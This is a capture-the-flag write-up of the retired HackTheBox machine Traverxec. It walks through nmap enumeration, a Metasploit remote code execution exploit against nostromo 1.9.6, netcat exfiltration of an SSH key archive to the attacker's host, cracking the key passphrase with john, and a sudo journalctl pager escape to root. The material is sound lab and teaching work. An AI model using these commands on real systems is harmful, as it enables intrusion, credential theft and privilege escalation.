 ```yaml
---
title: "Traverxec | HackTheBox"
collection: publications
permalink: /publication/traverxec
excerpt: 'This is a retired machine from HackTheBox'
date: 2023-08-03
venue: '08-03'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
#citation: 'Your Name, You. (2009). &quot;Paper Title Number 1.&quot; <i>Journal 1</i>. 1(1).'
---
```


![header](/images/traverxec_header.png)

**LINK:** [Traverxec](https://app.hackthebox.com/machines/Traverxec)

---

## Enumeration : 

Let's scan the target with nmap : 

```bash
nmap -sV -sC -A -p- 10.10.10.165
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-03 06:19 EDT
Nmap scan report for 10.10.10.165
Host is up (0.19s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa99a81668cd41ccf96c8401c759095c (RSA)
|   256 93dd1a23eed71f086b58470973a388cc (ECDSA)
|_  256 9dd6621e7afb8f5692e637f110db9bce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 5.1 (92%), Crestron XPanel control system (90%), Linux 3.16 (89%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

the scan reveals 2 open ports :
 * ``SSH`` running on port 22.
 * ``Nostromo`` web server running on port 80.


* Visiting ``http://10.10.10.165``, we see this web page.

![traverxec1](/images/traverxec1.png)

# Initial foothold : 

* I spent some time exploring the web page( source code, hidden directories...) but i didn't find anything interesting.

* One of the information that we found earlier was the version of ``nostromo`` which is ``1.9.6``, a quick research on google i found that this version of ``nostromo`` is vulnerable to ``remote code execution``.

>[Exploit-DB](https://www.exploit-db.com/exploits/47837)
>[Rapid7](https://www.rapid7.com/db/modules/exploit/multi/http/nostromo_code_exec/)

* I used ``metasploit`` to exploit this vulnerability, you can also use the python exploit that we found on ``Exploit-DB``.
* Let's fire up metasploit and choose the module related to this vulnerability

```bash
# msfconsole
msf > use exploit/multi/http/nostromo_code_exec
```

* Time to set some options before we exploit the server.

```bash
msf exploit(multi/http/nostromo_code_exec) > set target 1
msf exploit(multi/http/nostromo_code_exec) > set RHOSTS 10.10.10.165
msf exploit(multi/http/nostromo_code_exec) > set LHOST <your-ip-address>
msf exploit(multi/http/nostromo_code_exec) > exploit
```

* After few seconds, we got the shell as ``www-data`` user.

![traverexec2](/images/traverexec2.png)


# User Flag : 

* Next step is to escalate our shell to ``David's``.
* Visiting the ``/var/nostromo/conf`` directory, we see a file named ``nhttpd.conf`` contains the web server configuration.

```bash
[snip]
# HOMEDIRS [OPTIONAL]

homedirs /home
homedirs_public public_www
[snip]
```

* This configuration indicates that there might be a folder named ``public_www`` in the user's home directory, earlier i did notice that the david's home directory is not readable, however the ``public_www`` is readable.

* the ``public_www`` folder contains a subfolder named ``protected-file-area`` where i found a compressed file named ``backup-ssh-identity-files.tgz``.

![traverexec3](/images/traverexec3.png)

* There are a lot of ways to transfer the compressed file to our local machine, i used ``netcat`` for this purpose.

* on our local machine : 

```bash
# nc -lvp 1234 > backup-ssh-identity-files.tgz
```
* On the victim machine : 

```bash
# nc <your-ip-address> 1234 < backup-ssh-identity-files.tgz
```

* Since it's a tar archive, let's use ``tar`` command to extract it.

```bash
# tar -xvf backup-ssh-identity-files.tgz
```

![traverexec4](/images/traverexec4.png)

* I found the private key for ``SSH``, so maybe we can login as ``david``.

```bash
chmod 400 id_rsa
```

* Unfortunately the privte key is encrypted so we need the passphrase.

![traverexec5](/images/traverexec5.png)

* let's try to crack it with ``john``, first we will extract the hash from the private key.

```bash
# ssh2john id_rsa > id.hash 
```

* Time to crack it 

![traverexec6](/images/traverexec6.png)

* Now that we have the passphrase let's login.

![traverexec7](/images/traverexec7.png)


# Root Flag : 

* There is a folder called ``bin`` inside david's home directory, let's examine the ``server-stats.sh`` script.

![traverexec8](/images/traverexec8.png)

* We can see that the last command is executed using ``sudo``, after executing the script we can see that it displays the last 5 lines of the nostromo service logs using journalctl.

* A quick visit to [GTFOBins](https://gtfobins.github.io/gtfobins/journalctl/#sudo), i found out that ``journactl`` is exploitable because it invokes the default pager which is likely to be ``less``, the ``less`` command waits for user input after displaying the output so at that moment we can spawn a shell as sudo.

* before running the following command, you should resize the screen by maximizing it in order to spawn the shell : 

```bash
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
```

![traverexec9](/images/traverexec9.png)

* Enter the following command : 

```bash
!/bin/bash
```

![traverexec10](/images/traverexec10.png)

* Now it's time to get the root flag

![traverexec11](/images/traverexec11.png)












